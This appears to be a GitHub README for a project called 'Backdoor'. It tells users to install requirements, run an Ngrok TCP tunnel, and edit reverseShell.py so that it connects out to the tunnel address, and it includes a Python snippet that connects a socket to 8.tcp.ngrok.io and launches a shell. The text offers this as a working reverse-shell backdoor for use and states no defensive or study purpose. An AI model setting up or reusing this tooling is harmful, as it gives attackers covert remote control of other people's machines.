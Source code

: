 # Backdoor

presentation de notre projet

## Installation

Use the package manager [pip](https://pip.pypa.io/en/stable/) to install missing modules.

```bash
pip install -r requirements.txt
```

## Usage
use [Ngrok](https://ngrok.com/) to exposes local server behind NATs and firewalls to the public internet over secure tunnels.
```bash
ngrok tcp 9001
```
change the reverseShell.py [code](https://github.com/msamyy/roodkcab/blob/cb93eade83a6c29268dc9d7577dd68a089d3223c/rs/reverseShell.py#L355) so it contains the address and the port generated by Ngrok, for example:
```python
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# connection()
sock.connect(("8.tcp.ngrok.io", 17655))  # ngrok tcp 9001
print("connected")
shell()
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)